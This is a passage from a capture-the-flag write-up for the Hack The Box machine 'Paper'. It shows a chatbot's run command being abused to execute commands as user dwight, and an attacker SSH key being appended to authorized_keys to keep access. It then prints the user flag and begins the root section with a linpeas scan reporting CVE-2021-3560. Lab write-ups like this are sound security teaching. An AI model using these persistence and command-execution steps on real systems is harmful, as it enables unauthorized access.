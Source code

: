 
We use it and run `id`. We discover that the bot is running as the `dwight` user
on the box. We can directly grab the user flag but we want a shell as user.

    ::text
    run id
    uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)

We upload our SSH key on the box.

    :::text
    run echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzB[SNIP] kali@kali' >> ~/.ssh/authorized_keys

We can then logging as `dwight` using SSH and grab the user flag.

    :::text
    $ ssh 10.129.138.109 -ldwight
    [dwight@paper ~]$ cat user.txt
    48cd829918540bb7a9bec8676f5b0024

# Root

The root part is a wild ride and I discussed it directly with the box author
[secnigma](https://www.hackthebox.com/home/users/profile/92926) over Discord.

When the box was released there was a bug in
[linpeas](https://github.com/carlospolop/PEASS-ng)
[fixed in the first days of the box](https://github.com/carlospolop/PEASS-ng/commit/48ff8b061b1724138313e362eac3cc84cc2dec73)

As you can see in the [commit](https://github.com/carlospolop/PEASS-ng/commit/48ff8b061b1724138313e362eac3cc84cc2dec73)
the script always flagged a box using `yum` as "Vulnerable to CVE-2021-3560"
(Polkit) if we run a
[linpeas](https://github.com/carlospolop/PEASS-ng) [release prior to the patch
date on the box](https://github.com/carlospolop/PEASS-ng/releases/tag/20220205)
we will see that the box is marked as vulnerable.

    :::text
    [dwight@paper ~]$ sh linpeas.sh


    ╔══════════╣ Sudo version
    ╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
    Sudo version 1.8.29

    Invalid configuration value: failovermethod=priority in /etc/yum.repos.d/nodesource-el8.repo; Configuration: OptionBinding with id "failovermethod" does not exist
    Invalid configuration value: failovermethod=priority in /etc/yum.repos.d/nodesource-el8.repo; Configuration: OptionBinding with id "failovermethod" does not exist
    Modular dependency problems:

    Problem 1: conflicting requests
      - nothing provides module(perl:5.26) needed by module perl-IO-Socket-SSL:2.066:8030020201222215140:1e4bbb35.x86_64
    Problem 2: conflicting requests
      - nothing provides module(perl:5.26) needed by module perl-libwww-perl:6.34:8030020201223164340:b967a9a2.x86_64
    Vulnerable to CVE-2021-3560
